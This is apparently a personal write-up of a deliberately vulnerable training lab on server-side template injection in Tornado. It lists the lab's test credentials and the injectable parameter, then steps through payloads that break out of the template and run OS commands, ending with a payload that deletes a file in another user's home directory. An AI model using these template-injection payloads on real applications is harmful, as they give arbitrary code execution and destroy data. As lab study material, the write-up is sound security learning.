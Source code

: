 # Lab: Basic server-side template injection (code context)

This lab is vulnerable to server-side template injection due to the way it unsafely uses a Tornado template. To solve the lab, review the [Tornado documentation](https://www.tornadoweb.org/en/stable/index.html) to discover how to execute arbitrary code, then delete the morale.txt file from Carlos's home directory.
[Tornado Docs on OS Commands](https://www.tornadoweb.org/en/stable/template.html)

>You can log in to your own account using the following credentials: wiener:peter

The injectable field is in the email and name change field/functionality

**Request**
```HTTP
POST /my-account/change-blog-post-author-display
```

**Response:**
`blog-post-author-display=user.nickname`

The users nick name is displayed in comment section


**Tried this:**
`blog-post-author-display={{user.nickname}}`
Displays nickname in comment section with squirley braces around it

blog-post-author-display=user.nickname}}{{2*2}}
Displays this:
`H0td0g4}}`

So u can break out of the template and force it to do maths
now force it to do os commands

Getting the syntax correct on the exploit was the most difficult part
I knew what to do though
It was the correct number of squirley braces to use, in conjunction with the ones already 
at play on the back end

This caused a syntax error, but got me closer
`blog-post-author-display=user.nickname}}{{% system.os("ls") %}}`

According to the documentation, just need one `{` around the import, and then double `{{ }}`
around the commands/code

`{% import os %} {{os.system('ls')`

This syntax worked
`blog-post-author-display=user.nickname}}{% import os %}{{os.system('ls')`
resulted in
morale.txt H0td0g0

Therefore, now rm morales.txt
`blog-post-author-display=user.nickname}}{% import os %}{{os.system('rm morale.txt')`

### The Correct Syntax
```python
{% import os %}{{os.system('ls')
```

```
=user.nickname}}{% import os %}{{os.system('ls')`
```
Successfully executed the `ls` command

The  full path of the system command / exploit
`blog-post-author-display=user.nickname}}{% import os %}{{os.system('rm /home/carlos/morale.txt')`


```
=user.nickname}}{% import os %}{{os.system('rm
/home/carlos/morale.txt')`
```

And so, the exact syntax of the payload:
```python
{% import os %}{{os.system('rm /home/carlos/morale.txt')
```


